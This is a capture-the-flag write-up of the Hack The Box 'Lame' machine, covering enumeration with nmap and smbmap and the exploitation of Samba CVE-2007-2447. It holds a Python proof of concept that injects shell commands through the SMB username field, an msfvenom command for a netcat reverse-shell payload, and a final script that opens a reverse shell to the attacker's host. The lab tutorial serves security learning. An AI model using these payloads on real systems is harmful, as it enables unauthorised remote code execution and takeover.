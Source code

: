 ```yaml
---
title: HTB - Lame
date: 2020-07-23 20:12
categories: [Writeups, Machines]
tags: [htb, windows, lame, vsftpd-v2.4.5, smb-v3.0.20, nmap, ftp, smbmap, smbclient, tcpdump, netcat, metasploit, msfvenom, cve-2007-2447, cve-2011-2523, python]
---
```


This box has two relatively wellknown CVEs for FTP and SMB services running on it. We must focuse on both of them in order to get to *ROOT*. 

## NMAP

Start with NMAP scan and run default scripts on open ports:
``` terminal
$ sudo nmap -sV -sC -O -p21,22,139,445 10.10.10.3 -oA tcp-full-scan
```
![nmap-scan](/assets/img/sample/htb-lame-nmap-scan.png)
SSH, FTP and SMB services are open on the box.
### FTP
FTP server is running vsftpd v2.3.4. and anonymouse login is allowed. Access the ftp server:
``` terminal
$ ftp 10.10.10.3
```
![ftp-enum](/assets/img/sample/htb-lame-ftp.png)
There is no data hosted on the server and no write access. Searching the internet for vsftpd v2.3.4 reveals critical vulnerability that vsftpd v2.3.4 has a [**Backdoor in its source code [CVE-2011-2523]**](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523). This backdoor opens a shell on port 6200/tcp.
> The backdoor payload is interesting. In response to a :) smiley face in the FTP username, a TCP callback shell is attempted. There is no obfuscation. More interestingly, there's no attempt to broadcast any notification of installation of the bad package. So it's unclear how victims would be identified; and also pretty much guaranteed that any major redistributor would notice the badness. Therefore, perhaps someone was just having some lulz instead of seriously trying to cause trouble.

So we should definitely exploit it :). we have `nmap` script to verify this CVE.
```terminal
$ sudo nmap --script=ftp-vsftpd-backdoor -p 21 10.10.10.3
```
![ftp-backdoor-scan](/assets/img/sample/htb-lame-ftp-script.png)
hmm... the script didnt return any output. This scripts runs the `id` command on target host and returns the output if successful. ==Something looks wrong==. 

Now **Metasploit** also has a module to exploit this vulnerability but to be sure do it manually. Here are the steps:
1. run tcpdump on ethernet interface.
```terminal
$ sudo tcpdump -nntttt -i tun0
```
2. login to ftp server with username `:)`
![ftp-enum](/assets/img/sample/htb-lame-ftp-manual.png)
So far, it surely looks like a rabbit hole. Move on to next port for now.

### SMB
SMB is running v3.0.20-Debian on server and message signing is also diabled. Check for Null session first.
``` terminal
$ smbmap -H 10.10.10.3
```
![smb-enum](/assets/img/sample/htb-lame-smb-list.png)
Server allows **READ,WRITE** access on **tmp** folder. Now recursively list all the contents of this directory:
``` terminal
$ smbmap -H 10.10.10.3 -R tmp
```
![smb-enum-tmp](/assets/img/sample/htb-lame-smb-tmp.png)
There is no meaningful information in shared data.

Google search for SMB v3.0.20 shows that it has a [**Remote Command Injection Vulnerability [CVE-2007-2447]**](https://nvd.nist.gov/vuln/detail/CVE-2007-2447).
> The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

## Getting Shell
**Metasploit** has a builtin module for this exploit, but this vulnerability is pretty straight forward. AND.. there is no fun in that. LAME!!!!!

Root cause of this CVE is the unfiltered information parsed by `/bin/sh` which is provided to MS-RPC(port 139) and is supposed to be used for running non-default scripts. so it is possible to run any command without needing any Authentication.

### CVE-2007-2447 Script

Let's write the script in *Python3*. We need to get `pysmb` library to authenticate with smb. The exploit script does not need anything more than a *RPC Connect Request*. 

Write a simple POC:

```python
#!/usr/bin/env python3
from smb.SMBConnection import SMBConnection
SMBConnection(
	"/=`nohup ping -c 3 10.10.14.33`", 
    "", 
    "", 
    "",
).connect("10.10.10.3", 139)
```
Listen on **tun0** with `tcpdump` and execute script.

![smb-enum](/assets/img/sample/htb-lame-smb-pingreply.png)
We get a ping reply which confirms *Arbitrary Code Execution*. Replace payload with reverse shell. Generate Shellcode for payload with `msfvenom`. 
```terminal
$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.33 LPORT=2222 EXITFUNC=thread
```
![payload-with-msfvenom](/assets/img/sample/htb-lame-msfvenom.png)
Now replace the `ping` command in Python script with netcat reverse shell payload
```python
from smb.SMBConnection import SMBConnection

SMBConnection(
    "/=`nohup mkfifo /tmp/lmzf; nc 10.10.14.33 2222 0</tmp/lmzf | /bin/sh >/tmp/lmzf 2>&1; rm /tmp/lmzf`",
    "",
    "",
    "",
).connect("10.10.10.3", 139)
```
Open `netcat` listener on port `2222` and execute script.
![ROOT!!!!!](/assets/img/sample/htb-lame-root.png)
And finally we have the Root Shell!! Lame! :)








